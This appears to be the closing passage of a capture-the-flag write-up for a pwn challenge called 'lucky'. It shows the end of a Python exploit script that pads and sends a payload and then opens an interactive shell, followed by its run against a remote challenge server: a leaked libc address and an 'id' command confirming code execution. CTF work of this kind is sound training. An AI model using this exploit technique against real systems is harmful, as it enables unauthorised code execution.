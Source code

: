 ```python

padding_size =  target_number_in_int*4 -len(payload)
print(f'Padding size: {padding_size}')

payload += b'A' * padding_size

for i in range(0, len(payload), 4):
    chunk = payload[i:i+4]
    io.sendlineafter(':', f"{u32(chunk)}".encode())

io.interactive()
```

```
mcsam@0x32:~/Desktop/ctf/flagyard/pwn/lucky$ python3 solve.py REMOTE 34.252.33.37 31264
[*] '/home/mcsam/Desktop/ctf/flagyard/pwn/lucky/libc-2.31.so'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to 34.252.33.37 on port 31264: Done
Received address: 0x7f4ecdf21980
Libc _IO_2_1_stdin_ address: 0x7f4ecdf21980
String in memory: 0x20000000200000002000000020000000200000002000000020000000200000002000000020000000200000002000000020000000200000002000000000000000
Calculated birth year: 137438953472, hex: 0x2000000000
[*] Loaded 201 cached gadgets for './libc-2.31.so'
Padding size: 56
id
[*] Switching to interactive mode
 $ id
uid=1000 gid=1000 groups=1000
$  
```

And viola we obtain code exeution on the target. :fingerguns: